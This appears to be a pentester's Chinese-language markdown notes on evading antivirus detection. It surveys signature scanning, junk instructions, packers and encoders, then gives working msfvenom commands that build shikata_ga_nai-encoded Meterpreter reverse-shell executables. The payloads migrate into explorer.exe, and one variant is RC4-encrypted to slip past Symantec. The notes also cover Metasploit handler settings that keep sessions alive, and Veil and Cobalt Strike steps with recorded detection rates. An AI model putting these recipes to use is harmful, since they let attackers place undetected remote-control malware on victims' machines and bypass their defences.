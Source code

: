 # 免杀
### 扫描免杀的方式
* 特征码扫描
    1. 文件特征码扫描
    2. 内存特征码
* 文件校验和
* 进程行为检测法
### 免杀技术基本原理
* 修改特征码
    1. 一种是改特征码
    2. 第二种是针对目前推出的校验和查杀技术提出的免杀思想
* 花指令免杀
    1. 花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。花指令是否存在对程序的执行结果没有影响，所以它存在的唯一目的就是阻止反汇编程序，或对反汇编设置障碍
    2. 大多数反病毒软件是靠特征码来判断文件是否有毒的，而为了提高精度，现在的特征码都是在一定偏移量限制之内的，否则会对反病毒软件的效率产生严重的影响！而在黑客们为一个程序添加一段花指令之后，程序的部分偏移会受到影响，如果反病毒软件不能识别这段花指令，那么它检测特征码的偏移量会整体位移一段位置，自然也就无法正常检测木马了。
* 加壳免杀
    1. 简单地说，软件加壳其实也可以称为软件加密，或软件压缩，当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，然而它却达到了加密的目的，这就是壳的作用。
    2. 加壳虽然对于特征码绕过有非常好的效果，加密壳基本上可以把特征码全部掩盖，但是缺点也非常的明显，因为壳自己也有特征。在某些比较流氓的国产杀软的检测方式下，主流的壳如VMP, Themida等，一旦被检测到加壳直接弹框告诉你这玩意儿有问题，虽然很直接，但是还是挺有效的。有些情况下，有的常见版本的壳会被直接脱掉分析。

    3. 面对这种情况可以考虑用一切冷门的加密壳，有时间精力的可以基于开源的压缩壳改一些源码，效果可能会很不错。
* 二次编译
    1. shikata_ga_nai是msf中唯一的评价是excellent的编码器，这种多态编码技术使得每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样。还可以利用管道进行多重编码进行免杀。
    2. 目前msfvenom的encoder特征基本都进入了杀软的漏洞库，很难实现单一encoder编码而绕过杀软
* 分离免杀
    不懂
* 资源修改
    1. 加资源
    2. 替换资源
    3. 加签名

### msf免杀

部分参数解读

```
-a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64

–platform < platform> 指定payload的目标平台

-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all

-p,-payload 指定需要使用的payload
-f 指定输出格式 --help-formats 来获取msf支持的输出格式列表

-i, –iterations < count> 指定payload的编码次数

-e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload 

想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项，可以使用msfvenom -p windows/meterpreter/reverse_tcp --list-options

-o, –out < path> 指定创建好的payload的存放位置

-x 指定模板(可以用其他的安装exe)

-k 该选项可以保留模版原来的功能，将payload作为一个新的线程来注入，但不能保证可以用在所有可执行程序上

```
* session 问题
    1. 经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session

            handler) > set ExitOnSession false   //可以在接收到seesion后一直保持侦听，需要用户主动打断侦听

    2. 防止sessions 意外退出

                handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
    3. handler 持续监听

            使用exploit -j -z可在后台持续监听,-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。
    4. 快捷的监听方式，直接就是后台监听，只是msf的后台，可以通过jobs 查看后台任务，可以通过jobs -h 查看帮助

                handler -H ip - P port -p windows/meterpreter/reverse_tcp
    5. payload的可持续化
*  成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中

            msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.32 LPORT=4444 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=explorer.exe -f exe -o  a.exe
    * 针对上面payload 
        1. 即使杀掉a.exe 仍然能保持链接.普通payload无法
        2. 但重启后不能连接,就不清楚了

* 利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮下执行meterpreter。


        msfvenom -p  windows/meterpreter/reverse_tcp_rc4  -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=explorer.exe  lhost=192.168.3.40  lport=4444  RC4PASSWORD=tidesec  -f exe -o b.exe   

## Veil 
* veil结合msf
* 普通结合msf
    1. list 查看payload 
     ![Alt text](1.png)
    2. use payload
    3. options 查看需要设置的参数
     ![Alt text](2.png)
    4. 生成payload,(会生成一个rc文件)上传exe到被攻击的主机
    ![Alt text](3.png)
    5. 快捷监听msf msfconsole -r aaa.rc
    6. 杀软测试
       1. 火绒没扫描出来
       2. 360 被杀
       3. virus 46/71
* msf 结合cobalt strike
    1. cobalt strike生成payload

        ![Alt text](5.png)
    2. 对于CS生成的payload (\x00...)，需使用shellcode_inject类型的stager进行免杀
        我使用的是go/shellcode_inject/virtual
    3. 其余方式与上面差不多，把cs生成的payload复制粘贴放入其中就行了
        
        ![Alt text](6.png)

    4. 放入被攻击机器，cobalt strike上线
    6. 杀软测试
        1. 360没查杀
        2. 火绒没查杀
        3. virus 33/71

* 公司测试

[veil](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247484786&idx=1&sn=ad9d407c1609fec077e5d58860de7385&scene=21#wechat_redirect)

## ns_payload xml 文件
1. 条件 
    
        .NET Framework>=4.0
## shellter

[多种免杀](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247485262&idx=1&sn=bf3a0c3437f5f5a0f3ce32263775816d&chksm=ce5e252ff929ac39f7145e950c5f0470f4fb92b05555e630875fde44100bf1d7550d27ff6b09&mpshare=1&scene=23&srcid=&sharer_sharetime=1580921637563&sharer_shareid=83755ee3783cda9873fe18794ec48d1d#rd)